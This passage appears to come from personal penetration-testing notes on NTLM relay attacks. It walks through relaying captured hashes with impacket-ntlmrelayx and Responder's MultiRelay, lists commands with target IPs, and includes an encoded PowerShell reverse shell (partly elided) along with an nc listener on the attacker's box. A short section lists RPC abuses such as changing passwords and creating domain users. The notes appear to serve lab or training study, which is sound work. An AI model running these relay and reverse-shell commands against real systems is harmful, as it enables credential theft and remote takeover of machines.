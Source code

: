 *If the hash cannot be cracked we can potentially relay the hash to another machine using  [impacket-ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) or Responder [MultiRelay.py](https://github.com/lgandx/Responder/blob/master/tools/MultiRelay.py)*:

Step 1:
Turn SMB **off**. `/etc/responder/Responder.conf`

Step 2:
Execute `impacket-ntlmrelayx` with the option `--no-http-server`, `-smb2support`. `-t` is the target machine. We can execute commands with `-c`.
```shell-session
impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146
```

*Example of executing a reverse powershell on target using  [https://www.revshells.com/](https://www.revshells.com/) with the option Powershell #3 (Base64):*
***Start `nc -lvnp <port>` on attack box***

```shell-session
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e JABjAGwAaQBlAG4AdAAgADQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAb... SNIP ...oACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA'
```

### RPC
[[00 - notes/Kali Notes/Footprinting]]

**Uses:** 
- Change a user's password
- Create a new domain user
- Create a new shared folder

[SMB Access from Linux Cheat Sheet](https://www.willhackforsushi.com/sec504/SMB-Access-from-Linux.pdf)

